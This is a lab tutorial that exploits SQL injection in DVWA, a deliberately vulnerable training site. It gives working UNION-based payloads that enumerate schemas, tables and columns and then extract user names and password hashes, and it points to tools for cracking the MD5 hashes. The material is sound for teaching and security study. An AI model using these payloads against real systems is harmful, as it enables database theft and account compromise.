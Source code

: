 ```yaml
---
title: SQL Injection
description: Learn how to exploit sql injection vulnerability.
author: Kalidou DIA
---
```


# <center>CLASSIQUE SQL INJECTION - EXPLOIT</center>

![alt text](/img/sql_classic/sql_injection.jpeg#center)

## 1. Presentation

### In this tutorial, we'll look at how to exploit an SQL injection vulnerability.

The website in question contains a lot of vulnerabilities. In a way, it is a laboratory for exploiting and testing vulnerabilities.
The vulnerability we are going to describe in the following lines is "SQL injection". More information :[ click here to view](https://www.kaspersky.fr/resource-center/definitions/sql-injection)
<p>The technologies used on this website are :</p>

![alt text](/img/sql_classic/techno_site.png#center)

Description of interaction with site visitors

-  1. We ask the visitor to enter a user id
-  2. The server then returns the "First name" and "Surname" of the corresponding id.
<br>

![alt text](/img/sql_classic/gordon_screen.png#center)


## 2. How the website works 

### 2.1 Let's see how the site behaves when you enter values it doesn't expect
<div style="display:flex; flex-direction:row; justify-content: center; align-items: start;">
    <div>
        <p>Enter a character string with quotes instead of an integer</p>
        <img src="/img/sql_classic/coucou.png"/>
    </div>
    <div>
        <p>The server processes the request correctly and returns a code 200 to say that everything is fine. Which is abnormal.</p>
        <img src="/img/sql_classic/coucou_response.png"/>
    </div>
</div>

### 2.2 Let's see if the sql injection works.
To do this, we're going to guess (thanks to the technology used on this site) the SQL query that is used to retrieve the information displayed.
After several tests, we deduce that the query in question could look like this:

```SQL
    SELECT colonne1, colonne2
    FROM nom_de_la_table 
    WHERE id = '$id';
```
The *id* field is our input that has been sent to the server. This is the field we're going to use to change the SQL query.

To do this, we're going to put in a character string that will return all the lines.
The string in question is as follows: 
`` ' OR 1=1 -- - ``
<p> As a result, the query will be : </p>

```SQL
    SELECT colonne1, colonne2
    FROM nom_de_la_table
    WHERE id = '' OR 1=1 -- - ' ;
```

<p> This query will return the rows of the table concerned because the condition 

`` WHERE id='' OR 1=1 `` 
is always true. The characters "<span style="color:#FF5733">-- -</span>" are used to comment out the rest of the request, which will not be executed.</p>

![alt text](/img/sql_classic/exploit1.png#center)

The SQL injection passes and the table information is displayed.


## 3. Extract more information

We are sure that the site is vulnerable to SQL injection.
Let's try to get some more information.

### 3.1 Database version

By running a few tests, we know that there are two columns being requested in the query.
<p>As a result, our input will take this value :

''`` ' UNION SELECT NULL,version()-- - ``''
</p>


The query will look like this: 
```SQL
    SELECT colonne1, colonne2
    FROM nom_de_la_table
    WHERE  id = '' UNION SELECT NULL,version()-- - '
```

``version()`` or ``@@version`` is a system variable found in most SQL databases.


![alt text](/img/sql_classic/version.png#center)
The image above shows that this is a mariaDB.

### 3.2 Database names (schemas)

Our input here will take the following value: ``' UNION SELECT concat(schema_name),1 from information_schema.schemata -- - ``


``schema_name `` is also a system variable. So the schematics will be displayed in the first column and the value 1 in the second
We can see from the screenshot below that we have 2 comics: **dvwa'** and **information_schema**.

The database of interest to us is dvwa

![alt text](/img/sql_classic/schema.png#center)

### 3.3 Extract tables from the dvwa DB

input  :  <span style = "color : #FF5733 ">
``' UNION SELECT concat(TABLE_NAME),1 from information_schema.TABLES WHERE table_schema='dvwa' -- -``
</span>

**TABLE_NAME** is also a system variable
We can see that the dvwa DB contains two tables: users and guestbook

![alt text](/img/sql_classic/tables.png#center)


### 3.4 Extract columns from users table

input  :  <span style = "color : #FF5733 ">
``' UNION SELECT concat(COLUMN_NAME),1 from information_schema.COLUMNS WHERE TABLE_NAME='users' -- -``
</span>

**COLUMN_NAME** is also a system variable
The users table columns are :
    <li>user_id</li>
    <li>first_name</li>
    <li>last_name</li>
    <li>user</li>
    <li>password</li>
    <li>avatar</li>
    <li>last_login</li>
    <li>failed_login</li>

![alt text](/img/sql_classic/columns.png#center)


### 3.5 Extract all names and passwords

input  :  <span style = "color : #FF5733 ">
``'  UNION SELECT concat(0x28,first_name,0x3a,last_name,0x3a,password,0x29),1 from users -- -``
</span>

We use the ``concat()`` function to format and display as much information as we want.
<p>The characters <span style="color: #E85320"> 0x28 0x3a 0x29 </span> are respectively the ASCII representations of <span style="color: #E85320;"> <i>(</i> </span>, <span style="color: #E85320;"> <i>:</i> </span>  and <span style="color: #E85320;"> <i>)</i> </span> converted to hexadecimal. They are used for formatting</p>

The image below shows the various items of information recovered.
![alt text](/img/sql_classic/lines.png#center)

## 4. Cracking passwords

Note that the passwords are hashed. The hash used looks like MD5 (32 characters).
<p>To crack passwords, let's use <a href="https://www.openwall.com/john/">John the Ripper</a> or an online password cracker : <a href="https://md5decrypt.net/">MD5 decrypt</a></p>

![alt text](/img/sql_classic/decrypt_password.png)

The unencrypted passwords are shown in the image above.

